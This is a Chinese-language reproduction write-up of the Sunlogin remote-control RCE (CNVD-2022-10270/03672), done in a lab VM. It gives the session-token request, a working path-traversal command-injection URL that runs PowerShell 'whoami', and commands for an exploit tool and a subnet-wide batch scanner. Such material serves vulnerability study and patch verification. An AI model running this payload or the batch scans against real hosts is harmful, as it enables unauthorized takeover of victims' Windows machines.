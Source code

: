 # CNVD-2022-10270/CNVD-2022-03672 向日葵RCE复现

## 前言

向日葵是一款免费的集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。

于2022年2月5日和2022年2月15日，CNVD公开上海贝锐信息科技股份有限公司的向日葵远控软件存在远程代码执行漏洞（CNVD-2022-10270/CNVD-2022-03672），影响Windows系统使用的个人版和简约版，攻击者可利用该漏洞获取服务器控制权。

### 影响版本

```rust
向日葵个人版   for Windows <= 11.0.0.33
向日葵简约版   <= V1.0.1.43315（2021.12）
```

### 漏洞级别

**高危**

## 环境搭建

在虚拟机里安装11.0.0.33的低版本向日葵

![image-20230219135253229](https://static.sechelper.com/img/2023/02/19/0e9310d39d6dab64bd3b1a19d4f998dd.png)



## 漏洞复现

使用nmap或其他工具探测目标端口

![image-20230219135507131](https://static.sechelper.com/img/2023/02/19/9e001275cc9492a214e5983cef3b272a.png)

在浏览器中访问ip+端口号+cgi-bin/rpc?action=verify-haras  （端口号：每一个都尝试，直到获取到session值CID）

![image-20230219150724105](https://static.sechelper.com/img/2023/02/19/b163e8baaf5182d528e63123e27307d2.png)

Cookies添加拿到的CID后加上payload请求

`http://192.168.52.133:49437/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+ whoami`

![image-20230219151000880](https://static.sechelper.com/img/2023/02/19/2e0885b0c77014c7e4b5537b0088f8ec.png)

![image-20230219151134780](https://static.sechelper.com/img/2023/02/19/0c403efcedf24d411d2da115b6edb5ee.png)

手动复现完成



### 工具使用

使用工具自带的扫描

`xrkRce.exe` -h ip -t scan

![image-20230219152233952](https://static.sechelper.com/img/2023/02/19/d2011971c95e90d74318e1d4bf3a090f.png)

测试命令执行

![image-20230219153035239](https://static.sechelper.com/img/2023/02/19/49e6cde2a8fe7e06471caff2c6de7117.png)



### 批量检测

`python3 sunlogin-fuzz.py -t 192.168.52.128/25`

![image-20230219162629384](https://static.sechelper.com/img/2023/02/19/a2714a6e433bc190d0041018c53ed840.png)
